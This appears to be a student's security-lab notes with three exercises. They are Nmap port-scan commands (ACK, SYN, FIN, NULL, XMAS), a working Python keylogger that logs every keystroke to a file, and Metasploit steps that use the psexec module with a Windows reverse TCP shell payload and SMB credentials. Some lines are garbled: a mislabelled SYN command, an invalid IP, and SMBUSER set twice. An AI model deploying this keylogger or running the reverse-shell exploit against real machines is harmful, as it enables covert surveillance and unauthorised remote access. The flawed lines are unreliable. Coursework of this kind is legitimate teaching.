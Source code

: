 practical 4:Using Nmap scanner to perform port scanning of various
forms – ACK, SYN, FIN, NULL, XMAS.

1)ACK -sA (TCP ACK scan)
 nmap -sA -T4 scanme.nmap.org

2)SYN (Stealth) Scan (-sS) 
nmap -p22,113,139 scanme.nmap.org

3)FIN Scan (-sF) 
nmap -sF -T4 para

4)NULL Scan (-sN)
nmap -sN -p 22 scanme.nmap.org

5)XMAS Scan (-sX) 
nmap -sX -T4 scanme.nmap.org


practical 9:
Create a simple keylogger using Python.

from pynput.keyboard import Key, Listener
log_file_path = "Downloads/keylog.txt"
def write_to_log(key):
    with open(log_file_path, "a") as f:       
        f.write(str(key))        
        if key == Key.enter:
            f.write("\n")
def on_press(key):
    write_to_log(key)
def on_release(key):
    if key == Key.esc:
        return False
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

practical 10:
#Using Metasploit to exploit (Kali Linux)

1)use exploit/windows/smb/psexec
2)set RHOST 192.168.1.00
3)set PAYLOAD/windows/shell/reverse_tcp
4)set LHOST 192.168.1.5
5)set LPORT 4444
6)set SMBUSER victim
7)set SMBUSER s3cr3t
8)exploit
